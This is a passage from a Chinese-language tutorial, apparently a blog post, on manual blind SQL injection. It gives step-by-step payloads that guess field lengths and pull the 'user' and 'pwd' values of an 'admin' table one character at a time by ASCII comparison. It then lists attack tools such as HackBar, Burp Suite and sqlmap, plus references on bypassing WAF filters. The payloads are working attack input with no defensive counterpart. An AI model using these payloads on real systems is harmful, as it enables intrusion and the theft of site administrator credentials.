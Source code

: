 and (select top 1 len(字段名) from 表名) >0

如果and (select top 1 len (user) from admin) >4 返回正常 >5 返回错误，则说明字段的位数为5。

**第四步 猜Ascii码的字段值**

and (select top 1 asc(mid(字段,位数,1)) from 表名) >ascii（1~128）

MID 函数用于从文本字段中提取字符。

例如：and (select top 1 asc (mid(user,1,1)) from admin) >96 返回正常 97返回错误 那么这个user表里面的第一个ascii码就是97，ascii码对应的就是字母a。

user字段里面的第一位已经被猜出来了是a，对应的ascii码是97

接着猜第二位到最后一位。

---

user字段猜完了开始猜pwd字段也就是网站后台的密码

and (select top 1 asc(mid (pwd,1,1)) from admin) >ascii（1——128）

和猜user字段里的内容是一样的，把字段替换成pwd ，然后在猜的时候替换要猜解的位数，和ascii码.

---

工具
===
+ 火狐插件HackBar

![图片.png](http://upload-images.jianshu.io/upload_images/1348446-22051a4671949145.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
HackBar 小工具包，包含一些常用的工具(SQL injection,XSS,加密等)，web开发人员可以利用它，快速构建一个http请求，或者用它快速实现某种算法等。

---

+ BurpSuite

![图片.png](http://upload-images.jianshu.io/upload_images/1348446-13f6af7862476725.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

---

Burp Suite 是用于攻击web 应用程序的集成平台。它包含了许多工具，并为这些工具设计了许多接口，以促进加快攻击应用程序的过程。
所有的工具都共享一个能处理并显示HTTP 消息，持久性，认证，代理，日志，警报的一个强大的可扩展的框架。

+ Sqlmap

SQLmap是一款用来检测与利用SQL注入漏洞的免费开源工具，对检测与利用进行自动化处理（数据库指纹、访问底层文件系统、执行命令）。

---
参考文献
===
+ [SQL注射/SQL Injection漏洞](http://wooyun.tangscan.cn/static/drops/papers-59.html)
+ [深入了解SQL注入绕过waf和过滤机制](http://wooyun.tangscan.cn/static/drops/tips-968.html)
+ [网络攻击技术开篇——SQL Injection](http://www.cnblogs.com/rush/archive/2011/12/31/2309203.html)
+ [SQL手工注入的学习总结 ](http://blog.csdn.net/claysystem/article/details/46677413)
